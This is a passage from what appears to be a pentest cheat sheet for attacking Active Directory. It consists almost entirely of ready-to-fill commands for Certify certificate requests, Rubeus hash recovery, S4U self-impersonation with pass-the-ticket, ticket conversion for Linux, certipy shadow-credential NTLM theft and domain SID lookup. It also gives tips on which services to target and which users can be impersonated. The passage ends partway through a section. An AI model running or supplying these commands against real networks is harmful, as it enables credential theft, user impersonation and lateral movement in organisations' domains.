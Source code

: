 ````
.\Certify.exe request /ca:<CA SERVER>\<CA NAME> /user:<COMPUTERACCOUNT>$ /domain:<FQDN DOMAIN> /template:<TEMPLATE NAME>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Unpack the hash attack
```
.\Rubeus.exe asktgt /getcredentials /user:<COMPUTERACCOUNT>$ /certificate:<PATH TO PFX> /password:<PASSWORD OF PFX> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /show
```

#### Perform S4USelf attack to gain TGS ticket
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /self /impersonateuser:<USER TO IMPERSONATE> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTERACCOUNT>$ /rc4:<NTLM> /ptt

.\Rubeus.exe s4u /self /impersonateuser:<USER TO IMPERSONATE> /altservice:http/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTERACCOUNT>$ /rc4:<NTLM> /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Get TGT on target machine
```
.\Rubeus.exe tgtdeleg /nowrap
```

#### Linux Convert ticket & Use
```
echo "<BASE64>" | base64 -d > ticket.kirbi
python3 ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<PATH TO ticket.ccache>
```

#### Retrieve NTLM hash using shadow credentials
```
certipy shadow auto -k -no-pass -dc-ip <DC IP> -account cb-webapp1 -target <FQDN DC> -debug
```

#### Retrieve SID of domain
```
rpcclient -U '%' <FQDN DOMAIN> -c 'lsaquery'
```

#### Request TGS ticket
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
````
